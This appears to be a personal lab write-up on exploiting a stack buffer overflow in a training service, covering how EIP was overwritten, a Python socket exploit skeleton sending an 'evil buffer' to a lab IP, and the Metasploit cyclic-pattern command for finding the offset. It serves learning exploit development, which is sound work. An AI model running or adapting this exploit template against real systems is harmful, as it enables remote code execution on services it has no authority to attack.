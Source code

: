 ![[Pasted image 20221221163259.png]]

So it crashed at 2000 bytes and as u can see we overwrote the EIP with 41 41 41 41 which is the ascii code for the Letter A 

# Crash Replication & Controlling EIP
For the next step we need to find the offset and control the EIP 
Using this script

```python
import socket

ip = "10.10.44.100"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset 
retn = "" # Return address that we want to jmp to
padding = "" # padd before payload if we are encoding payload
payload = "" 
postfix = "" # if there is extra options 

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Because we want to find where does the program crashes to know when it reaches the EIP 
We need to use something else than bunch of As because using same letter we won't be able to find when did it Crash
For that we are using metasploit module pattern_create.rb 
This module will create different chars ( cyclic pattern ) and when the server crashes we will be able to see what Chars overwrote the EIP  
Keep in mind that we need to add more than 2000 chars because that we will need more space later for our Payload so we will add extra 400 

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
Now we copy the output  and paste it inside payload variable in our previous code
![[Pasted image 20221221170255.png]]
Now we reopen immunity debugger and rerun our program 
```bbash
python3 exploit.py
```
![[Pasted image 20221221171910.png]]
